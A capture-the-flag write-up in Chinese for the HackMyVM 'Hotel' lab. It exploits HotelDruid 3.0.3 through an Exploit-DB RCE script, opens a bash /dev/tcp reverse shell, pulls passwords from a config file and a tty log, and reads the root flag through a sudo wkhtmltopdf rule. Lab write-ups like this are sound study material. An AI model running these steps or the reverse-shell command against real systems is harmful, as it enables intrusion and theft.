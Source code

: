 # Hotel

2025.02.14 https://hackmyvm.eu/machines/machine.php?vm=Hotel

[video](https://www.bilibili.com/video/BV1P6KKeaELE/?spm_id_from=333.1387.homepage.video_card.click&vd_source=aed2f374c732513d2e535afafb1fd2ec)

## Ip

192.168.5.40

## Scan

```
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

访问 80 web 底部显示的是 HotelDruid 是一个 CMS，访问 http://192.168.5.40/doc/README.english 发现了系统的版本 HotelDruid version 3.0.3， 看看有没有可以直接利用的漏洞，发现可能有 RCE 命令注入，https://www.exploit-db.com/exploits/50754 下载 exp py 文件， 可以直接访问到 dashboard，不需要认证信息：

```
python3 50754.py -t http://192.168.5.40 --noauth

[*] Trying to access the Dashboard.
[*] Checking the privilege of the user.
[+] User has the privilege to add room.
[*] Adding a new room.
[+] Room has been added successfully.
[*] Testing code exection
[+] Code executed successfully, Go to http://192.168.5.40/dati/selectappartamenti.php and execute the code with the parameter 'cmd'.
[+] Example : http://192.168.5.40/dati/selectappartamenti.php?cmd=id
[+] Example Output : uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

已经写入了 webshell，直接 kali 建立监听，获得反弹 shell：

```
nc -lvnp 8888

curl -G --data-urlencode 'cmd=/bin/bash -c "/bin/bash -i >& /dev/tcp/192.168.5.3/8888 0>&1"' http://192.168.5.40/dati/selectappartamenti.php
```

获得了反弹的 shell，发现一个用户 person 但是没有权限读取 user.txt，先找到了数据库配置连接文件：

```
www-data@hotel:~/html/hoteldruid$ cat /var/www/html/hoteldruid/dati/dati_connessione.php
<?php
$PHPR_DB_TYPE = "mysqli";
$PHPR_DB_NAME = "hotel";
$PHPR_DB_HOST = "localhost";
$PHPR_DB_PORT = "3306";
$PHPR_DB_USER = "adminh";
$PHPR_DB_PASS = "adminp";
$PHPR_LOAD_EXT = "";
$PHPR_TAB_PRE = "";
$PHPR_LOG = "NO";
```

但是上面的密码不是 person 用户的密码，继续寻找，发现 ttylog 文件,尝试读取，发现了 person 用户的密码：

```
www-data@hotel:~/html$ /usr/bin/ttyplay ttylog
person@hotel:~$ my passw0rd is Endur4nc3. enjoy it!
```

使用密码 Endur4nc3. 切换到 person 用户，得到了 user flag:

```
person@hotel:~$ cat user.txt
RUvSNcQ3m2OyHzxHMV
```

sudo -l 发现: (root) NOPASSWD: /usr/bin/wkhtmltopdf 不是 GTFOBin 中的，看看它的帮助信息，将文件转化成 pdf，所以直接可以读取 root flag：

```
sudo wkhtmltopdf /root/root.txt flag.pdf
```

读取 flag.pdf 中的内容得到了 root flag：

```
7MUnADgp3g4STEPHMV
```
